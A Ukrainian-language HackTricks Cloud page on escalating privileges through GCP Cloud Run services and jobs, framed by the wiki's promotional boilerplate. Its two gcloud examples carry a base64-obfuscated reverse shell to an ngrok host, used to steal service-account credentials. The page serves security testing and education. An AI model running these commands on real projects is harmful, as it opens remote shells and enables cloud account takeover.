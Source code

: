 # GCP - Запуск привілей

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію в рекламі HackTricks** або **завантажити HackTricks у PDF** Перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за мною на **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Поділіться своїми хакінг-трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>

## Cloud Run

Для отримання додаткової інформації про Cloud Run перегляньте:

{% content-ref url="../../gcp-pentesting/gcp-services/gcp-cloud-run-enum.md" %}
[gcp-cloud-run-enum.md](../../gcp-pentesting/gcp-services/gcp-cloud-run-enum.md)
{% endcontent-ref %}

### `run.services.create`, `iam.serviceAccounts.actAs`, **`run.routes.invoke`**

Атакувальник з цими дозволами може **створити сервіс запуску, що виконує довільний код** (довільний Docker контейнер), прикріпити до нього обліковий запис служби та зробити код **витік токена облікового запису служби з метаданих**.

Скрипт вразливості для цього методу можна знайти [тут](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/run.services.create.py), а Docker-образ можна знайти [тут](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudRunDockerImage).

Зверніть увагу, що при використанні `gcloud run deploy` замість простого створення сервісу **потрібен дозвіл `update`**. Перевірте [**приклад тут**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/o-run.services.create.sh).

### `run.services.update`, `iam.serviceAccounts.actAs`

Схоже на попереднє, але оновлення сервісу:
```bash
gcloud run deploy hacked \
--image=marketplace.gcr.io/google/ubuntu2004 \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account="<proj-num>-compute@developer.gserviceaccount.com" \
--region=us-central1 \
--allow-unauthenticated
```
### `run.services.setIamPolicy`

Надайте собі попередні дозволи на хмарний запуск.

### `run.jobs.create`, `run.jobs.run`, (`run.jobs.get`)

Запустіть завдання зі зворотнім shell, щоб вкрасти обліковий запис служби, вказаний у команді. Ви можете знайти [**експлойт тут**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/m-run.jobs.create.sh).

### `run.jobs.update`,`run.jobs.run`,`iam.serviceaccounts.actAs`,(`run.jobs.get`)

Аналогічно попередньому, можливо **оновити завдання та оновити SA**, **команду** та **виконати її**:
```bash
gcloud beta run jobs update hacked \
--image=marketplace.gcr.io/google/ubuntu2004 \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account=<proj-num>-compute@developer.gserviceaccount.com \
--region=us-central1 \
--project=security-devbox --execute-now
```
### `run.jobs.setIamPolicy`

Надайте собі попередні дозволи на Cloud Jobs.

## References

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити **рекламу вашої компанії на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за мною на **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) **і** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **репозиторіїв на GitHub**.

</details>
